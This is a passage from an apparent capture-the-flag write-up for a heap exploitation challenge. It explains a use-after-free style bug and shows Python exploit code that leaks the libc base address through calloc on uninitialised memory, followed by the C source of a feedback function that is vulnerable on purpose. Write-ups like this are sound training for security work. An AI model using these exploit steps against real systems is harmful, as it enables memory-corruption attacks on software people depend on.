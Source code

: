 As you can see , the remove function doesn't null out the table , which lets us `hack` free chunks.

Now let's finish up the exploit until leaking libc.

Getting leaks with this information in hand is nothing but a trivial task.

```python

    #Add 2 chunks ,one of which is uneffected by tcache
    add(0,0x600,'b'*0x40)
    add(1,0x80,'a'*0x40)
    #Free first one to send to unsorted bin
    free(0)
    #Send the unsorted bin to large bin
    add(2,0x1260,'unsorted bin')
    #Flip the bit to make the free chunk mapped , which could be used for leaking with calloc
    hack(0)
    hack(0)
    #Now add that chunk to get uninitialised memory from calloc
    add(0,0xd10,'d'*8) #0x10f0
    #view it to leak stuff
    view(0)
    #Leaks
    io.recvuntil("d"*8)
    libc_base = u64(re(6) + '\x00'*2) - 0x1ec1e0
    log.info("libc_base = "+ hex(libc_base))
    #Done with leaks , move on
```

After getting libc leak , there's not much you can do with the secret service , so , just move on :P.

### The Final Feedback

We have entered the final stage of our program (and exploit too :P) , where we are requested to enter some feedback.

A separate thread is created which calls the thread handler function, `create_feedback`.

```c
void *thread_entry(void *arg)
{
    create_feedback();
    return (void *)NULL;
}

//Create a new thread to handle feedback request
void create_feedback()
{
    char feedback[100];
    puts("A new thread has been created for feedback");
    if((unsigned long)&feedback < init_0())
    {
        printf("Enter size of feedback: ");
        scanf("%d",&size);
        printf("Enter feedback: ");
        if(size>0x70)
        {
            puts("Size too large");
            Exit();
        }
        unsigned int fd_stdout = supress_stdout();
        unsigned int fd_stderr = supress_stderr();
        get_inp(feedback,size);
    }
    puts("Thank you!");
    return;
```